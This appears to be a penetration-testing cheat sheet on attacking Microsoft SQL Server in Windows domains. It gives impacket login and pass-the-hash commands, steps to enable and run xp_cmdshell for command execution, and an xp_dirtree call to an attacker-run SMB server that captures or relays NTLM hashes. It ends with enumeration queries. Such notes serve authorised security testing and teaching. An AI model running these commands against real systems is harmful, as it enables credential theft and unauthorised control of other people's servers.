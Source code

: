 # Microsoft SQL service (port 1433)

If the Domain controller or any other windows machine have accessible Microsoft SQL service through the standar port 1433, or any custom port accessible, you can use a domain user credentials (or local user credentials) to login. In some cases this can lead to RCE through "xp_cmdshell" function, ntlm authentication relay through "xp_dirtree" function or get the NTLM v2 hash from the user running the service, enumerate databases, arbitrary querys, and migrate to other computers if are connected through "links".

You can login into the service using mssqlclient.py from impacket suite:

`mssqlclient.py <domain>/<user>:'<password>'@<ip>`

Pass-the-hash: `mssqlclient.py <domain>/user:@<ip> -hashes '<optional LM hash>:<NT hash>'`

Kerberos auth: `sudo rdate -n <ip> ; <domain>/<user>:'<password>'@<machine>.<domain> -k`

<br>

### Try an RCE:

Whatever user you loged in, try to use "xp_cmdshell" command to execute a command inside that machine:

`xp_cmdshell "whoami"`

If this fails for any reason (probably) try to enable this function with:

`enable_xp_cmdshell`

`reconfigure`

`xp_cmdshell "whoami"`

NOTE: Remember that 'sa' user is more likely to be able to run xp_cmdshell in the machine

<br>

### NTLM relay / hash grabbing

You can also try to get ntlmv2 hash for the user which is running the server. Then you can crack offline that hash to get credentials, or (if you suspect that credentials could have admin rights against another domain machine) you can use "ntlmrelayx" tool to relay the credentials and get RCE (or whatever) to second machine.

From your attacking machine: `smbserver.py -smb2support share .` (also "responder" tool will work)

Inside mssqlclient.py session: `xp_dirtree \\<your_smbserver_ip>\whatever`

For NTLM relay look for "responder" and "ntlmrelayx" functionalitys.

<br>

### Database enumeration:

You can also make simple direct querys to enumerate the machine, users and sql process to get information:

Get all database: `EXEC sp_databases;` or `SELECT name FROM sys.databases;` "master", "tempdb", "model", "msdb" databases are coming from default.

Use specific database: `USE <database name>;`

Get tables from current database: `SELECT name FROM sys.tables;` or `SELECT * FROM information_schema.tables;`

Get content from specific table: `SELECT * FROM <table name>;`

Get columns from specific table: `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('<table name>');`

Enumerate users and roles: `SELECT name FROM sys.syslogins;`


Other information you can enumerate from the machine:
```
SELECT @@VERSION;               -- Sql server version
SELECT SERVERPROPERTY('MachineName');  -- Hostname
SELECT SERVERPROPERTY('Edition');      -- Edition (Express, Standard, etc.)
SELECT SERVERPROPERTY('InstanceName'); -- Instance name
SELECT SERVERPROPERTY('ProductLevel'); -- Patch level

SELECT name, type_desc FROM sys.server_principals;   -- Server users
SELECT name, type_desc FROM sys.database_principals; -- Database users

SELECT * FROM sys.dm_exec_sessions;       -- Active sessions and connections
SELECT * FROM sys.dm_exec_connections;

SELECT * FROM sys.dm_exec_requests;       -- SQL process
```

<br>

### Links

Working on this seccion....

<br>

Other interesting articles: https://one2bla.me/Breach-operations/attacking-mssql


